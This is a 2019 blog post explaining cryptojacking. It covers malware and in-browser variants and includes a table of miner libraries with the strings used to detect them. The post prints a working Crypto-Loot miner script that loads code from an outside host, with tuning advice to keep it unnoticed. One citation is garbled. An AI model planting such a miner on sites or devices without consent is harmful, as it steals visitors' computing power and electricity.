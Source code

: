 :slug: cryptojacking-malware/
:date: 2019-08-25
:category: documentation
:subtitle: Understanding cryptojacking "malware".
:tags: social engineering, javascript
:image: cover.png
:alt: CPU Usage. Photo by Alberto Duo on Unsplash: https://unsplash.com/photos/e4rcg33x4fA
:description: An explanation of the different types of cryptojacking and different tools that are used to implement it. An example is given, with a basic configuration. Finally, some conclusions about the legal use of cryptojacking and advantages of implementing it in a application.
:keywords: Blockchain, Cryptocurrencies, Cryptojacking, Mining, Malware, Javascript.
:author: Diego Alvarez
:writer: diegoaa
:name: Diego Alvarez
:about1: Systems and Telecommunications Engineer student
:about2: "Blessed is the man who expects nothing, because he will never be disappointed." Alexander Pope

= Cryptojacking, a real malware?

Before discussing the concept,
we need a brief definition of blockchain.
It is simply a unique, consensual, and
distributed registry on the network
that allows storage of information
that cannot be modified, lost or deleted.
It is used in the health sector, smart contracts,
intellectual property management, and cryptocurrencies,
the latter being the most used.

In the field of cryptocurrencies,
a blockchain stores all transactions
made with a cryptocurrency.
The security and integrity of these systems
are maintained by nodes,
which are computers connected to the blockchain network
competing with each other to verify transactions.
This process is known as mining
and is carried out by providing processing power
with either +CPUs+, +GPUs+, or
using specialized hardware for this type of tasks.

Usually nodes associate with each other
and create groups that working
together help to validate
a group of transactions.
when these transactions are validated,
each node is rewarded with
the proportion of the power contributed.

== Concept

When mining cryptocurrency
take into account
that in these processes,
the percentage of +GPU+ or +CPU+ usage increases,
as well as, the use of electricity.

Now, what if I tell you that
others can perform such processing power for you,
and even better, without having
to divide the profits between them.
It sounds pretty good,
and it's simple to implement with two variations.

* The first is carried out by
infecting a victim's machine with a malware.
Usually, this is done by social engineering.
We can make a victim,
without their knowledge, download malware
that executes the mining process in the background.
* The other variation is in-browser mining.
This executes code in the user's browser
when the user is accessing a particular site.
In this case, +JavaScript+ is used to execute such scripts.

== Discussion

Some people prefer that
their +CPU+ be used +100%+ of the time,
without having to deal with ads
and pop-ups on every new page.

On the other hand, antivirus companies
periodically update their definition of malware,
and include web miners as a potential threat to a user's system.

According to cointelegraph<<r1 ,^[1]^>>, Monero,
the most affected currency
by the excessive mining,
plans to reinforce its algorithm
by requiring miners to dedicate
over two gigabytes of +RAM+ to the process,
which could make cryptojacking attempts harder to hide.

The use of these scripts
defines whether it is legal or not.
There are cases where attackers
inject code into websites through +XSS+,
generating profits, and of course,
without the consent of the website administrator.

As noted above, with social engineering techniques,
the attacker could make victims download malicious programs
to perform mining without consent.

== Tools

There are many tools to perform in-browser mining,
being link:https://krebsonsecurity.com/2018/03/who-and-what-is-coinhive/[Conhive] one of the most used,
but since March 2019 it stopped working.

However there are others quite similar.
The following Table 1 shows a scan,
made with link:https://publicwww.com/[publicWWW],
the approximate number of websites using these tools.

.Quantity of websites per library<<2 ,^[2]^>>
[options="header"]
|====
|Website           |Results |Query Parameter
|Coinhive          |30611   |"coinhive.min.js"
|JSEcoin           |1131    |"load.jsecoin.com"
|Crypto-Loot       |695     |"CryptoLoot.Anonymous"
|Minr              |324     |"minr.pw", "st.kjli.fi", "abc.pema.cl",
"metrika.ron.si", "cdn.rove.cl", "host.d-ns.ga", "static.hk.rs",
"hallaert.online", "cnt.statistic.date", "cdn.static-cnt.bid"
|CoinImp           |317     |"www.coinimp.com/scripts/min.js"
|ProjectPoi (PPoi) |116     |"projectpoi.min"
|AFMiner           |46      |"afminer.com/code/miner.php"
|Papoto            |42      |"papoto.com/lib/papoto.js"
|====

In the following example, a test is shown using link:http://Crypto-Loot[Crypto Loot],
a library that is replacing the previous Coinhive.
It is very easy to implement in any application
by inserting the following code.

.In-Browser mining script
[source, javascript, linenums]
----
<script src="//statdynamic.com/lib/crypta.js"></script>
<script>
  var miner = new CRLT.Anonymous('15837bc7758859e913c5ccc2d292a9f1e54775389d5',
    { threads:4,throttle:0.2, coin: "xmr" }
  );
  miner.start();
</script>
----

When a user visits the application,
the level of processing increases very fast.
The recommended thread value
to make the script unnoticed is between 2-4.
And the throttle that defines the maximum +CPU+ usage
is at 0.2 (80%), being 0.0 the full speed
and the least recommended.

.CPU Usage while visiting a website with In-Browser mining script.
image::cpu.png[CPU Usage]

Earnings and processing power collected
can be seen in the link:https://crypto-loot.org/dashboard/[dashboard]
of who inserted the script.

== Conclusion

However, the use of services such as link:http://Crypto-Loot[Crypto Loot] are legal.
They are considered malware
when used anonymously in users systems and
is our responsibility
to inform users what is happening
and provide statistics on mined power.

In order of using these mining methods to be legitimate,
users must receive a notification
about the execution of these scripts, as well as
the option to disable them and stop mining.

So far there are few websites
where the user is not actually informed
of the use of these scripts,
and here is where antivirus companies disagree
about excessive +CPU+ usage that can cause damage,
but actually they do not have the intention to
harm the files of the infected machine,
they just make the machine work a little slow.

No doubt nobody wants their machine to work slower,
but with a proper configuration of the scripts,
you can achieve a website that generates profits
without having to show annoying ads to visitors
and without exceeding the use of their +CPU+.

== References

. [[r1]] cointelegraph.
link:https://cointelegraph.com/news/monero-developers-consider-adopting-new-proof-of-work-algorithm-in-october[Monero Developers Consider Adopting New Proof-of-Work Algorithm in October.]

. [[r2]] S. Eskandari, A. Leoutsarakos, T. Mursch and J. Clark (2018).
_How to measure anything in cibersecurity risk_.
link:https://sci-hub.tw/https://ieeexplore.ieee.org/abstract/document/8406561[A first look at browser-based cryptojacking.].
_2018 IEEE European Symposium on Security and Privacy Workshops (EuroS&PW)_, 63.
